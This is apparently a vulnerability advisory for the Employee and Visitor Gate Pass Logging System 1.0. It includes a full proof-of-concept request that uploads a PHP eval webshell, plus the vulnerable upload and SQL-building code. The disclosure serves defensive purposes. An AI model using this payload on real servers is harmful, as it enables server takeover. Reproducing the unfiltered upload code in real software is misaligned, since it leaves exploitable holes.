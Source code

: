 ## Affected version: 
EMPLOYEE AND VISITOR GATE PASS LOGGING SYSTEM - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Users.php?f=ssave

## Description:
System Employee and Guest Gate Pass Logging 1.0 is vulnerable to an unrestricted file upload attack via /employee_gatepass/classes/Users.php?f=ssave. This function does not impose restrictions on upload suffixes. A malicious actor could exploit this vulnerability to directly take over the target server. 

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Users.php?f=ssave HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------138523865236681880423858409304
Content-Length: 951
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=user/manage_user&id=11
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="id"

1
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="firstname"

Claire
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="lastname"

Blake
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="username"

cblake
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="password"


-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="type"

1
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="img"; filename="1234.php"
Content-Type: application/octet-stream

<?php eval($_POST[1]);?>
-----------------------------138523865236681880423858409304--

```

Directly connect to the webshell management tool through the following address
http://localhost/employee_gatepass/uploads/1715653620_1234.php

![image](https://github.com/I-Schnee-I/cev/assets/58547398/4db9fcea-464b-4d48-b8e4-b4f726cff3c9)

## code analysis:

In the save_susers() method, the upload point directly uploads to the target server without any filtering on the upload suffix.
```
public function save_susers(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k => $v){
			if(!in_array($k, array('id','password'))){
				if(!empty($data)) $data .= ", ";
				$data .= " `{$k}` = '{$v}' ";
			}
		}

			if(!empty($password))
			$data .= ", `password` = '".md5($password)."' ";
		
			if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
				$fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
				$move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
				if($move){
					$data .=" , avatar = '{$fname}' ";
					if(isset($_SESSION['userdata']['avatar']) && is_file('../'.$_SESSION['userdata']['avatar']))
						unlink('../'.$_SESSION['userdata']['avatar']);
				}
			}
			$sql = "UPDATE students set {$data} where id = $id";
			$save = $this->conn->query($sql);

			if($save){
			$this->settings->set_flashdata('success','User Details successfully updated.');
			foreach($_POST as $k => $v){
				if(!in_array($k,array('id','password'))){
					if(!empty($data)) $data .=" , ";
					$this->settings->set_userdata($k,$v);
				}
			}
			if(isset($fname) && isset($move))
			$this->settings->set_userdata('avatar',$fname);
			return 1;
			}else{
				$resp['error'] = $sql;
				return json_encode($resp);
			}

	} 
	
}
```
